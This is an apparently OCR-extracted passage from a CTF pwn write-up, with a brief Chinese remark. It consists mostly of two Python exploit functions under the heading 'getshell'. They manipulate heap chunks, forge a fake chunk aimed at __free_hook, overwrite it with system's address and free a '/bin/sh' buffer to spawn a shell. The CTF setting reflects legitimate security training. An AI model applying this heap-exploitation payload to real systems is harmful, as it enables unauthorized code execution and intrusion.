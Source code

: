 getshell

``` python

def exp2():
    binsh  = 0x4000989720
    system = 0x40008a02c8
    hfree  = 0x40009b7630

    payload = b''
    payload = map(0x10, 0x10)
    payload += new(0, 4, 0x10, 'a')
    payload += new(0, 1, 0x60, 'a')
    payload += new(0, 2, 0x60, '/bin/sh\x00')
    payload += new(0, 3, 0x60, 'a')
    payload += set(0xf, 8, 2)
    payload += b's' + b'd' * 8 + b'ws'*0x2c + b's' * 0x30

    fakechunk = flat(0, 0, 0, 0x71, hfree)
    # fakechunk = '1'*8
    payload += dele(0, 3) 
    payload += dele(0, 1) 
    payload += dele(0, 4) 
    payload += new(0, 0, 0x80, fakechunk)
    payload += new(0, 1, 0x60, '2')
    payload += new(0, 8, 0x60, p64(system))
    payload += dele(0, 2)


    sla("cmd>", payload)

    for i in data:
        sl(i)
```

两个可以整合起来， 

```python

def exp():
    payload = b''
    payload += map(0x10, 0x10)
    payload += add(0, 4, 0x10)
    payload += add(0, 1, 0x60)
    payload += add(0, 2, 0x60)
    payload += add(0, 3, 0x60)

    for i in range(8):
        payload += add(1, i+1, 0x90)
    payload += add(2, 1, 0x10)
    for i in range(8):
        payload += dele(1, i+1)
    for i in range(8):
        payload += add(1, i+1, 0x90)
    payload += show()

    for i in range(8):
        payload += dele(1, i+1)
    payload += set(0xf, 8, 2)
    payload += b's' + b'd' * 8 + b'ws'*0x2c + b's' * 0x30

    payload += dele(0, 3) 
    payload += dele(0, 1) 
    payload += dele(0, 4) 
    payload += add(0, 0, 0x80)
```